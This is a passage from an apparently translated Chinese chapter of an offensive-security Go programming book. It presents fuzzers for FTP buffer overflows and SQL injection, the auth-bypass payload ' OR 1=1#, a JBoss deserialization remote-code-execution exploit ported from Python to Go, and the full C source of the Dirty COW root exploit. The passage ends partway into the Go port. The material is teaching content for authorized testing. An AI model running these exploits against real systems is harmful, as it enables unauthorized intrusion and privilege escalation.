

## 第九章：编写与移植利用代码


在前面的大部分章节中，你使用 Go 语言创建了基于网络的攻击。你已经探索了原始 TCP、HTTP、DNS、SMB、数据库交互以及被动数据包捕获等内容。

本章重点介绍识别和利用漏洞。首先，你将学习如何创建漏洞模糊测试器来发现应用程序的安全弱点。然后，你将学习如何将现有的利用代码移植到 Go 语言中。最后，我们将展示如何使用流行的工具创建 Go 语言友好的 shellcode。到本章结束时，你应该对如何使用 Go 语言发现缺陷，并利用 Go 编写和传递各种有效载荷有基本的理解。

### 创建模糊测试器

*模糊测试*是一种技术，通过向应用程序发送大量数据，试图迫使应用程序产生异常行为。这种行为可以揭示编码错误或安全漏洞，之后你可以利用这些漏洞。

对应用程序进行模糊测试也可能产生不良副作用，例如资源耗尽、内存损坏和服务中断。其中一些副作用对于漏洞猎人和利用代码开发者的工作是必要的，但对应用程序的稳定性不利。因此，必须始终在受控的实验室环境中进行模糊测试。与本书中讨论的大多数技术一样，未经所有者明确授权，不要对应用程序或系统进行模糊测试。

在这一部分，你将构建两个模糊测试器。第一个将检查输入的容量，试图使服务崩溃并识别缓冲区溢出。第二个模糊测试器将重放 HTTP 请求，循环测试潜在的输入值，以检测 SQL 注入。

#### 缓冲区溢出模糊测试

*缓冲区溢出*发生在用户提交的输入数据超出了应用程序为其分配的内存空间。例如，用户可能提交 5,000 个字符，而应用程序只期望接收 5 个字符。如果程序使用了错误的技术，这可能允许用户将多余的数据写入不为此目的而分配的内存区域。这个“溢出”会破坏相邻内存位置中存储的数据，从而使恶意用户有可能使程序崩溃或改变其逻辑流程。

缓冲区溢出对网络程序特别有影响，尤其是那些从客户端接收数据的程序。利用缓冲区溢出，客户端可以破坏服务器的可用性，甚至可能实现远程代码执行。值得重申的是：除非获得许可，否则不要对系统或应用程序进行模糊测试。另外，确保你充分理解崩溃系统或服务的后果。

##### 缓冲区溢出模糊测试的工作原理

为了制造缓冲区溢出，通常会提交逐渐变长的输入，每次请求的输入值长度比上次尝试的长度多一个字符。使用 *A* 字符作为输入的一个假设例子将按照 表 9-1 中所示的模式执行。

通过向一个脆弱的函数发送大量输入，你最终会达到一个输入长度超过该函数定义的缓冲区大小的点，这将破坏程序的控制元素，例如返回指针和指令指针。此时，应用程序或系统将崩溃。

通过每次尝试发送逐渐增大的请求，你可以精确确定期望的输入大小，这对后续利用该应用程序非常重要。然后，你可以检查崩溃或产生的核心转储，更好地理解漏洞并尝试开发一个有效的攻击代码。我们这里不会讨论调试器的使用和漏洞开发，而是集中精力编写模糊测试器。

**表 9-1：** 缓冲区溢出测试中的输入值

| **尝试** | **输入值** |
| --- | --- |
| 1 | A |
| 2 | AA |
| 3 | AAA |
| 4 | AAAA |
| *N* | 重复 *N* 次 |

如果你做过任何使用现代解释型语言的手动模糊测试，你可能已经使用了某种构造来创建特定长度的字符串。例如，下面的 Python 代码，在解释器控制台中运行，展示了如何简单地创建一个由 25 个 *A* 字符组成的字符串：

```
>>> x = "A"*25
>>> x
'AAAAAAAAAAAAAAAAAAAAAAAAA'
```

不幸的是，Go 没有类似的结构来方便地构建任意长度的字符串。你必须采用传统的方式——使用循环——其代码大致如下：

```
var (
        n int
        s string
)
for n = 0; n < 25; n++ {
    s += "A"
}
```

当然，它比 Python 的替代方案稍微冗长一些，但并不难以理解。

你需要考虑的另一个问题是如何传递你的有效载荷。这将取决于目标应用程序或系统。在某些情况下，这可能涉及将文件写入磁盘。在其他情况下，你可能会通过 TCP/UDP 与 HTTP、SMTP、SNMP、FTP、Telnet 或其他网络服务进行通信。

在以下示例中，你将针对一个远程 FTP 服务器进行模糊测试。你可以快速调整我们展示的逻辑，使其适用于其他协议，因此它应该为你开发针对其他服务的自定义模糊测试器提供一个良好的基础。

尽管 Go 的标准库包含对一些常见协议的支持，比如 HTTP 和 SMTP，但它不支持客户端与服务器之间的 FTP 交互。相反，你可以使用一个已经实现 FTP 通信的第三方库，这样你就不必从头开始重新发明轮子。然而，为了最大程度地控制（并理解协议），你可以通过原始 TCP 通信构建基本的 FTP 功能。如果你需要关于如何工作的复习，请参见 第二章。

##### 构建缓冲区溢出模糊测试器

清单 9-1 显示了模糊器代码。（位于根位置的所有代码列表都存在于提供的 GitHub 仓库[*https://github.com/blackhat-go/bhg/*](https://github.com/blackhat-go/bhg/)中。）我们已经硬编码了一些值，比如目标 IP 和端口，以及输入的最大长度。代码本身会模糊化`USER`属性。由于该属性发生在用户身份验证之前，因此它代表了攻击面上的常见测试点。你当然可以扩展此代码来测试其他身份验证前的命令，比如`PASS`，但请记住，如果你提供了一个合法的用户名并且继续提交`PASS`的输入，你最终可能会被锁定。

```
func main() {
  ❶ for i := 0; i < 2500; i++ {
      ❷ conn, err := net.Dial("tcp", "10.0.1.20:21")
         if err != nil {
          ❸ log.Fata lf("[!] Error at offset %d: %s\n", i, err)
         }  
      ❹ bufio.NewReader(conn).ReadString('\n')

         user := ""
      ❺ for n := 0; n <= i; n++ {
             user += "A"
          }  

         raw := "USER %s\n"
      ❻ fmt.Fprintf(conn, raw, user)
         bufio.NewReader(conn).ReadString('\n')

         raw = "PASS password\n"
         fmt.Fprint(conn, raw)
         bufio.NewReader(conn).ReadString('\n')

         if err := conn.Close()❼; err != nil {
          ❽ log.Println("[!] Error at offset %d: %s\n", i, err)
         }  
    }  
}
```

*清单 9-1：一个缓冲区溢出模糊器 (*[/ch-9/ftp-fuzz/main.go](https://github.com/blackhat-go/bhg/tree/master/ch-9/ftp_fuzz/main.go)*)*

这段代码本质上是一个大的循环，从❶开始。每次程序循环时，它会向你提供的用户名中添加一个字符。在这个例子中，你将发送长度从 1 到 2500 的用户名。

对于每次循环迭代，你都会与目标 FTP 服务器建立一个 TCP 连接❷。每次你与 FTP 服务交互时，无论是初始连接还是后续命令，你都需要显式地将服务器的响应作为一行读取❹。这使得代码在等待 TCP 响应时能够阻塞，以免你在数据包完成往返之前过早发送命令。然后，你使用另一个`for`循环按我们之前展示的方式构建一串*A*s❺。你使用外部循环的索引`i`来构建依赖于当前循环迭代的字符串长度，以便每次程序重新开始时增加一个字符。你使用这个值通过`fmt.Fprintf(conn, raw, user)`来写入`USER`命令❻。

尽管此时你可以结束与 FTP 服务器的交互（毕竟，你只是在模糊化`USER`命令），你仍然继续发送`PASS`命令以完成事务。最后，你会干净地关闭连接❼。

值得注意的是，有两个点，❸和❽，在这些位置，异常的连接行为可能表明服务中断，暗示可能发生了缓冲区溢出：即在连接首次建立时和连接关闭时。如果你在程序下次循环时无法建立连接，很可能是出现了问题。你需要检查服务是否因为缓冲区溢出而崩溃。

如果你在建立连接后无法关闭连接，这可能表明远程 FTP 服务出现异常行为，突然断开连接，但很可能不是由于缓冲区溢出引起的。该异常情况会被记录，但程序将继续执行。

一个数据包捕获示意图，如图 9-1 所示，显示了每个后续的`USER`命令在长度上逐渐增加，确认了你的代码按预期工作。



*图 9-1：Wireshark 捕获图，展示每次程序循环时 USER 命令增加一个字母*

您可以通过多种方式改进代码，以提高灵活性和便利性。例如，您可能希望删除硬编码的 IP、端口和迭代值，而是通过命令行参数或配置文件将它们包含在内。我们邀请您将这些可用性更新作为练习。此外，您可以扩展代码，使其在身份验证后进行模糊测试。具体来说，您可以更新工具，使其对`CWD`/`CD`命令进行模糊测试。历史上，许多工具在处理该命令时易受到缓冲区溢出的影响，因此它是一个很好的模糊测试目标。

#### SQL 注入模糊测试

在本节中，您将探索 SQL 注入模糊测试。与更改每个输入的长度不同，这种攻击的变种会循环尝试一组定义好的输入，以尝试触发 SQL 注入。换句话说，您将通过尝试包含各种 SQL 元字符和语法的输入列表来对网站登录表单的用户名参数进行模糊测试。如果后端数据库处理这些输入时不安全，它将导致应用程序出现异常行为。

为了简化，您将仅探测基于错误的 SQL 注入，忽略其他形式的 SQL 注入，如基于布尔值、时间和联合的 SQL 注入。这意味着，您不会查找响应内容或响应时间的细微差异，而是会查找 HTTP 响应中的错误信息，以指示 SQL 注入。这意味着您期望 Web 服务器保持运行，因此您不再可以依赖连接建立来作为判断是否成功造成异常行为的标准。相反，您需要在响应正文中搜索数据库错误信息。

##### SQL 注入是如何工作的

SQL 注入的核心原理是允许攻击者将 SQL 元字符插入语句中，可能通过操控查询产生意外行为或返回受限的敏感数据。当开发者盲目地将不可信的用户数据拼接到 SQL 查询中时，就会发生问题，如下伪代码所示：

```
username = HTTP_GET["username"]
query = "SELECT * FROM users WHERE user = '" + username + "'"
result = db.execute(query)
if(len(result) > 0) {
    return AuthenticationSuccess()
} else {
    return AuthenticationFailed()
}
```

在我们的伪代码中，用户名变量直接从 HTTP 参数中读取。用户名变量的值没有经过清理或验证。然后，你将使用该值构建查询字符串，将其直接连接到 SQL 查询语法中。程序执行查询并检查结果。如果找到至少一条匹配的记录，认为身份验证成功。只要提供的用户名由字母数字字符和某些子集的特殊字符组成，代码应该正常工作。例如，提供用户名`alice`会生成以下安全查询：

```
SELECT * FROM users WHERE user = 'alice'
```

然而，当用户提供包含撇号的用户名时，会发生什么呢？提供用户名`o'doyle`会生成以下查询：

```
SELECT * FROM users WHERE user = 'o'doyle'
```

这里的问题是，后端数据库现在看到的不平衡的单引号数量。注意前面查询中强调的部分，doyle；后端数据库将其解释为 SQL 语法，因为它位于包围引号之外。当然，这是无效的 SQL 语法，后端数据库无法处理它。对于基于错误的 SQL 注入，这会在 HTTP 响应中生成一个错误消息。消息的内容会根据数据库的不同而有所变化。在 MySQL 的情况下，你会收到类似以下的错误，可能还会附加一些披露查询本身的详细信息：

```
You have an error in your SQL syntax
```

尽管我们不会深入讨论漏洞利用，但现在你可以操纵用户名输入，生成一个有效的 SQL 查询，从而绕过我们示例中的认证。当用户名输入为`' OR 1=1#`时，它会在以下 SQL 语句中实现这一点：

```
SELECT * FROM users WHERE user = '' OR 1=1#'
```

这个输入会在查询的末尾附加一个逻辑`OR`。这个`OR`语句始终评估为真，因为 1 总是等于 1。然后你使用 MySQL 注释（`#`）强制后端数据库忽略查询的其余部分。这样就会得到一个有效的 SQL 语句，假设数据库中存在一行或多行数据，你可以使用它绕过前面伪代码示例中的认证。

##### 构建 SQL 注入模糊器

你的模糊器的目的是不生成一个语法上有效的 SQL 语句。恰恰相反，你希望破坏查询，使得不正确的语法会导致后端数据库报错，就像 O’Doyle 的示例所展示的那样。为此，你将发送各种 SQL 元字符作为输入。

第一件事是分析目标请求。通过检查 HTML 源代码、使用拦截代理或使用 Wireshark 捕获网络数据包，你可以确定提交到登录门户的 HTTP 请求类似于以下内容：

```
POST /WebApplication/login.jsp HTTP/1.1
Host: 10.0.1.20:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Referer: http://10.0.1.20:8080/WebApplication/
Cookie: JSESSIONID=2D55A87C06A11AAE732A601FCB9DE571
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=someuser&password=somepass
```

登录表单向*http://10.0.1.20:8080/WebApplication/login.jsp*发送 POST 请求。表单有两个参数：`username`和`password`。为了简洁起见，这里我们仅对`username`字段进行模糊测试。代码本身非常简洁，包含了一些循环、正则表达式以及 HTTP 请求的创建。代码展示在 Listing 9-2 中。

```
func main() {
 ❶ payloads := []string{
        "baseline",
        ")",
        "(",
        "\"",
        "'",
    }  

 ❷ sqlErrors := []string{
        "SQL",
        "MySQL",
        "ORA-",
        "syntax",
    }  

    errRegexes := []*regexp.Regexp{}
    for _, e := range sqlErrors {
     ❸ re := regexp.MustCompile(fmt.Sprintf(".*%s.*", e))
        errRegexes = append(errRegexes, re)
    }  

 ❹ for _, payload := range payloads {
        client := new(http.Client)
    ❺ body := []byte(fmt.Sprintf("username=%s&password=p", payload))
    ❻ req, err := http.NewRequest(
           "POST",
           "http://10.0.1.20:8080/WebApplication/login.jsp",
           bytes.NewReader(body),
        )  
        if err != nil {
            log.Fatalf("[!] Unable to generate request: %s\n", err)
        }  
        req.Header.Add("Content-Type", "application/x-www-form-urlencoded")
        resp, err := client.Do(req)
        if err != nil {
            log.Fatalf("[!] Unable to process response: %s\n", err)
        }  
 ❼ body, err = ioutil.ReadAll(resp.Body)
        if err != nil {
            log.Fatalf("[!] Unable to read response body: %s\n", err)
        }  
        resp.Body.Close()

     ❽ for idx, re := range errRegexes {
         ❾ if re.MatchString(string(body)) {
                fmt.Printf(
                    "[+] SQL Error found ('%s') for payload: %s\n",
                    sqlErrors[idx],
                    payload,
                )
                break
            }  
        }  
    }  
}
```

*Listing 9-2: SQL 注入模糊器 (*[/ch-9/http_fuzz/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-9/http_fuzz/main.go)*)*

代码首先定义了一个负载切片，你希望尝试这些负载❶。这就是你稍后将作为`username`请求参数的值提供的模糊列表。同样，你定义了一个字符串切片，表示 SQL 错误消息中的关键字❷。这些是你将在 HTTP 响应体中搜索的值。只要这些值中的任何一个存在，就可以强烈指示 SQL 错误消息的存在。你可以扩展这两个列表，但它们对于本示例来说已经足够了。

接下来，您进行一些预处理工作。对于每一个您希望搜索的错误关键词，您需要构建并编译一个正则表达式❸。您可以在主 HTTP 逻辑之外完成这项工作，这样就不必为每个有效载荷多次创建和编译这些正则表达式。虽然这只是一个小优化，但仍然是一个良好的实践。您将使用这些编译好的正则表达式来填充一个单独的切片，以便后续使用。

接下来是模糊器的核心逻辑。您遍历每一个有效载荷❹，使用每个有效载荷构建一个合适的 HTTP 请求体，其中`username`值为当前有效载荷❺。然后，您使用生成的值构建一个 HTTP POST 请求❻，并将其定向到登录表单。接着，您设置`Content-Type`头，并通过调用`client.Do(req)`发送请求。

请注意，您是通过使用创建客户端和单独请求的长形式过程来发送请求的，然后调用`client.Do()`。当然，您也可以使用 Go 的`http.PostForm()`函数来更简洁地实现相同的行为。然而，更冗长的技术为您提供了对 HTTP 头值的更细粒度控制。尽管在这个示例中您只设置了`Content-Type`头，但在进行 HTTP 请求时，设置额外的头值（如`User-Agent`、`Cookie`等）是很常见的。使用`http.PostForm()`是无法做到这一点的，因此采用长方式将使您以后更容易添加任何必要的 HTTP 头，特别是如果您将来有兴趣进行头部模糊测试。

接下来，您使用`ioutil.ReadAll()`❼读取 HTTP 响应体。现在您有了响应体，您遍历所有预编译的正则表达式❽，测试响应体中是否存在 SQL 错误关键词❾。如果您匹配到了，您很可能遇到了 SQL 注入错误信息。程序将把有效载荷和错误的详细信息记录到屏幕上，并继续下一次循环迭代。

运行您的代码，确认它成功地识别出一个易受攻击的登录表单中的 SQL 注入漏洞。如果您提供带有单引号的`username`值，您将看到错误指示符`SQL,`，如下面所示：

```
$ go run main.go
[+] SQL Error found ('SQL') for payload: '
```

我们鼓励您尝试以下练习，以帮助您更好地理解代码，了解 HTTP 通信的细微差别，并提高检测 SQL 注入漏洞的能力：

1.  更新代码以测试基于时间的 SQL 注入。为此，您需要发送不同的有效载荷，在后端查询执行时引入时间延迟。您需要测量往返时间，并将其与基准请求进行比较，以推断是否存在 SQL 注入。

1.  更新代码以测试基于布尔值的盲 SQL 注入。虽然你可以使用不同的指示符来进行测试，但一种简单的方法是将 HTTP 响应代码与基准响应进行比较。如果响应代码偏离基准响应，尤其是接收到 500（内部服务器错误）响应代码，这可能表示发生了 SQL 注入。

1.  不要依赖 Go 的 `net.http` 包来实现通信，尝试使用 `net` 包来建立原始 TCP 连接。当使用 `net` 包时，你需要注意 `Content-Length` HTTP 头部，它表示消息体的长度。你需要正确计算每个请求的长度，因为消息体长度可能会变化。如果使用无效的长度值，服务器很可能会拒绝该请求。

在下一节中，我们将展示如何将漏洞从其他语言（如 Python 或 C）移植到 Go。

### 将漏洞移植到 Go

由于各种原因，你可能希望将现有的漏洞移植到 Go。也许现有的漏洞代码已损坏、不完整，或者与目标系统或版本不兼容。尽管你完全可以使用原编写语言扩展或更新已损坏或不完整的代码，但 Go 提供了轻松跨平台编译、一致的语法和缩进规则，以及强大的标准库等优势。所有这些都会让你的漏洞代码更具可移植性和可读性，而不会妥协功能。

移植现有漏洞时，最具挑战性的任务可能是确定等效的 Go 库和函数调用，以实现相同的功能。例如，处理字节序、编码和加密的等效内容可能需要一些研究，特别是对于那些不熟悉 Go 的人来说。幸运的是，我们在前几章中已解决了基于网络的通信复杂性。希望你对这些实现和细节已有一定了解。

你会发现许多使用 Go 标准包进行漏洞开发或移植的方法。虽然在本章中全面涵盖这些包和用例是不现实的，但我们鼓励你探索 Go 的官方文档 *[`golang.org/pkg/`](https://golang.org/pkg/)*。该文档内容丰富，提供了大量良好的示例，帮助你理解函数和包的用法。以下是一些你在进行漏洞工作时可能最感兴趣的包：

bytes 提供低级字节操作

crypto 实现各种对称和非对称加密算法以及消息认证

debug 检查各种文件类型的元数据和内容

encoding 使用各种常见的格式（如二进制、十六进制、Base64 等）对数据进行编码和解码

io 和 bufio 读取和写入来自各种常见接口类型的数据，包括文件系统、标准输出、网络连接等

net 通过使用 HTTP 和 SMTP 等多种协议促进客户端与服务器的交互

os 执行并与本地操作系统交互

syscall 提供一个接口，用于进行低级系统调用

unicode 使用 UTF-16 或 UTF-8 编码和解码数据

unsafe 用于避免 Go 在与操作系统交互时的类型安全检查

诚然，这些包在后续章节中会更加有用，特别是当我们讨论低级 Windows 交互时，但我们列出了这个清单供你参考。与其详细介绍这些包，我们将向你展示如何使用其中的一些包移植现有的漏洞利用代码。

#### 从 Python 移植漏洞

在这个第一个示例中，你将移植一个 2015 年发布的 Java 反序列化漏洞的利用代码。这个漏洞被归类为多个 CVE，影响了常见应用、服务器和库中 Java 对象的反序列化。¹ 这个漏洞是由一个不验证输入的反序列化库引入的，输入未经过服务器端执行前的验证（这是漏洞的常见原因）。我们将重点讨论利用 JBoss，这是一款流行的 Java 企业版应用服务器。在 *[`github.com/roo7break/serialator/blob/master/serialator.py`](https://github.com/roo7break/serialator/blob/master/serialator.py)*，你会找到一个 Python 脚本，包含了利用该漏洞的逻辑，适用于多个应用程序。Listing 9-3 提供了你将要复制的逻辑。

```
def jboss_attack(HOST, PORT, SSL_On, _cmd):
    # The below code is based on the jboss_java_serialize.nasl script within Nessus
    """
    This function sets up the attack payload for JBoss
    """
    body_serObj = hex2raw3("ACED000573720032737--SNIPPED FOR BREVITY--017400") ❶

    cleng = len(_cmd)
    body_serObj += chr(cleng) + _cmd ❷
    body_serObj += hex2raw3("740004657865637571--SNIPPED FOR BREVITY--7E003A") ❸

    if SSL_On: ❹
        webservice = httplib2.Http(disable_ssl_certificate_validation=True)
        URL_ADDR = "%s://%s:%s" % ('https',HOST,PORT)
    else:
        webservice = httplib2.Http()
        URL_ADDR = "%s://%s:%s" % ('http',HOST,PORT)
    headers = {"User-Agent":"JBoss_RCE_POC", ❺
            "Content-type":"application/x-java-serialized-object--SNIPPED FOR BREVITY--",
            "Content-length":"%d" % len(body_serObj)
        }
    resp, content = webservice.request❻ (
        URL_ADDR+"/invoker/JMXInvokerServlet",
        "POST",
        body=body_serObj,
        headers=headers)
    # print provided response.
    print("[i] Response received from target: %s" % resp)
```

*Listing 9-3: Python 序列化漏洞利用代码*

让我们看看你正在处理的内容。这个函数接收主机、端口、SSL 指示符和操作系统命令作为参数。为了构建正确的请求，函数必须创建一个表示序列化 Java 对象的有效负载。该脚本通过将一系列字节硬编码到一个名为`body_serObj`的变量中开始❶。这些字节为了简洁已被省略，但请注意它们在代码中以字符串值表示。这是一个十六进制字符串，你需要将其转换为字节数组，使得字符串中的两个字符成为一个字节的表示。例如，你需要将`AC`转换为十六进制字节`\xAC`。为了完成这个转换，漏洞代码调用了一个名为`hex2raw3`的函数。只要你明白十六进制字符串正在发生什么，函数的具体实现细节并不重要。

接下来，脚本计算操作系统命令的长度，然后将长度和命令附加到 `body_serObj` 变量 ❷。脚本通过附加其他数据，表示 Java 序列化对象的剩余部分，以 JBoss 可以处理的格式，完成有效负载的构建 ❸。一旦有效负载构建完成，脚本生成 URL 并设置 SSL，以忽略无效证书（如有需要） ❹。然后，它设置所需的 `Content-Type` 和 `Content-Length` HTTP 头 ❺，并将恶意请求发送到目标服务器 ❻。

脚本中展示的大部分内容对你来说应该不陌生，因为我们在之前的章节中已经覆盖了大部分内容。现在只是以 Go 友好的方式进行等效的函数调用。清单 9-4 显示了利用的 Go 版本。

```
func jboss(host string, ssl bool, cmd string) (int, error) {
    serializedObject, err := hex.DecodeString("ACED0005737--SNIPPED FOR BREVITY--017400") ❶
    if err != nil {
        return 0, err
    }
    serializedObject = append(serializedObject, byte(len(cmd)))
    serializedObject = append(serializedObject, []byte(cmd)...) ❷
    afterBuf, err := hex.DecodeString("740004657865637571--SNIPPED FOR BREVITY--7E003A") ❸
    if err != nil {
        return 0, err
    }
    serializedObject = append(serializedObject, afterBuf...)

    var client *http.Client
    var url string
    if ssl { ❹
        client = &http.Client{
            Transport: &http.Transport{
                TLSClientConfig: &tls.Config{
                    InsecureSkipVerify: true,
                },
            },
        }
        url = fmt.Sprintf("https://%s/invoker/JMXInvokerServlet", host)
    } else {
        client = &http.Client{}
        url = fmt.Sprintf("http://%s/invoker/JMXInvokerServlet", host)
    }

    req, err := http.NewRequest("POST", url, bytes.NewReader(serializedObject))
    if err != nil {
        return 0, err
    }
    req.Header.Set( ❺
        "User-Agent",
        "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko")
    req.Header.Set(
        "Content-Type",
        "application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue")
 resp, err := client.Do(req) ❻
    if err != nil {
        return 0, err
    }
    return resp.StatusCode, nil
}
```

*清单 9-4：原始 Python 序列化利用的 Go 等效版本 (*[/ch-9/jboss/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-9/jboss/main.go)*)*

这段代码几乎是 Python 版本逐行复制的。因此，我们已经将注释设置与 Python 版本对齐，这样你就能够跟随我们所做的更改。

首先，通过定义序列化的 Java 对象 `byte` 切片 ❶ 来构建有效负载，在操作系统命令之前的部分进行硬编码。与依赖用户定义逻辑将十六进制字符串转换为 `byte` 数组的 Python 版本不同，Go 版本使用 `encoding/hex` 包中的 `hex.DecodeString()`。接下来，确定操作系统命令的长度，然后将其和命令本身附加到有效负载 ❷。通过将硬编码的十六进制结尾字符串解码到现有有效负载上 ❸，完成有效负载的构建。这段代码比 Python 版本稍显冗长，因为我们特意添加了额外的错误处理，但它也能够使用 Go 的标准 `encoding` 包轻松解码十六进制字符串。

接下来，你初始化 HTTP 客户端 ❹，如果需要，配置它进行 SSL 通信，然后构建一个 POST 请求。在发送请求之前，设置必要的 HTTP 头 ❺，以便 JBoss 服务器能正确解析内容类型。注意，你没有显式设置 `Content-Length` HTTP 头。这是因为 Go 的 `http` 包会自动为你处理这一点。最后，你通过调用 `client.Do(req)` ❻ 发送恶意请求。

大部分代码都使用了你已经学过的内容。代码引入了一些小的修改，例如配置 SSL 以忽略无效证书❹，以及添加特定的 HTTP 头❺。或许我们代码中唯一的新颖元素是使用了 `hex.DecodeString()`，这是 Go 的核心函数，用于将十六进制字符串转换为等效的字节表示。在 Python 中，你需要手动完成这一操作。表 9-2 显示了一些额外的常见 Python 函数或结构及其 Go 等效项。

这不是功能映射的全面列表。由于存在太多的变种和边缘情况，无法涵盖移植漏洞利用所需的所有可能函数。我们希望这能帮助你将一些最常见的 Python 函数转换为 Go。

**表 9-2：** 常见 Python 函数及其 Go 等效项

| **Python** | **Go** | **备注** |
| --- | --- | --- |
| `hex(x)` | `fmt.Sprintf("` %#x`",` x`)` | 将整数 x 转换为小写十六进制字符串，并以 `"0x`" 为前缀。 |
| `ord(`c`)` | `rune(`c`)` | 用于检索单个字符的整数（`int32`）值。适用于标准的 8 位字符串或多字节 Unicode。请注意，`rune` 是 Go 中的内建类型，它使得处理 ASCII 和 Unicode 数据变得相对简单。 |
| `chr(`i`) 和 unichr(`i`)` | `fmt.Sprintf("`%+q`", rune(`i`))` | Python 中 `ord` 的反操作，`chr` 和 `unichr` 对整数输入返回长度为 1 的字符串。在 Go 中，你使用 `rune` 类型，并可以通过使用 `%+q` 格式序列将其作为字符串返回。 |
| `struct.pack(`fmt`,` v1`,` v2`,` . . .`)` | `binary.Write(`. . .`)` | 创建数据的二进制表示，并根据类型和字节顺序进行适当格式化。 |
| `struct.unpack(`fmt`,` string`)` | `binary.Read(`. . .`)` | `struct.pack` 和 `binary.Write` 的反操作。将结构化的二进制数据读取到指定的格式和类型中。 |

#### 从 C 移植一个漏洞利用

让我们暂时离开 Python，专注于 C。C 可以说是一种比 Python 更难读懂的语言，但 C 与 Go 的相似性要比 Python 更多。这使得从 C 移植漏洞利用比你想象的要容易。为了演示，我们将移植一个本地特权提升漏洞利用，针对的是 Linux 系统。这个漏洞被称为 *Dirty COW*，涉及到 Linux 内核内存子系统中的竞态条件。该漏洞在公开时影响了大多数（如果不是所有的话）常见的 Linux 和 Android 发行版。该漏洞现已修复，因此你需要采取一些特定的措施来重现以下示例。具体来说，你需要配置一个有漏洞的内核版本的 Linux 系统。设置过程超出了本章的范围，但作为参考，我们使用的是 64 位的 Ubuntu 14.04 LTS 发行版，内核版本为 3.13.1。

该漏洞的多个变种是公开可用的。您可以在*[`www.exploit-db.com/exploits/40616/`](https://www.exploit-db.com/exploits/40616/)*找到我们打算复现的版本。Listing 9-5 展示了经过轻微修改以提高可读性的原始漏洞代码，完整展示如下。

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>
void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  --snip--
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

void *madviseThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        lseek(f,map,SEEK_SET);
        c+=write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary);
            break;
        }
 fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s.. to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary,O_RDONLY);
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len+1);

    map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);

    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0;
}
```

*Listing 9-5: 用 C 语言编写的 Dirty COW 特权提升漏洞利用代码*

与其详细解释 C 代码的逻辑，不如先概括地看一下，然后将其拆分成小块，逐行与 Go 版本进行比较。

这个利用漏洞的攻击定义了一些恶意的 Shellcode，采用可执行和可链接格式（ELF），该代码生成一个 Linux shell。它通过创建多个线程来执行代码，这些线程调用各种系统函数，将我们的 Shellcode 写入内存位置。最终，Shellcode 通过覆盖一个恰好设置了 SUID 位且属于 root 用户的二进制可执行文件的内容来利用这个漏洞。在这种情况下，该二进制文件是*/usr/bin/passwd*。通常，非 root 用户无法覆盖该文件。然而，由于 Dirty COW 漏洞，您可以通过写入任意内容到该文件，同时保留文件权限，从而实现特权提升。

现在让我们将 C 代码拆分成易于消化的部分，并逐一与 Go 中的等效部分进行比较。请注意，Go 版本特别试图逐行再现 C 版本。Listing 9-6 展示了在 C 中定义或初始化的全局变量，而 Listing 9-7 则展示了 Go 中的对应内容。

```
❶ void *map;
   int f;
❷ int stop = 0;
   struct stat st;
   char *name;
   pthread_t pth1,pth2,pth3;

   // change if no permissions to read
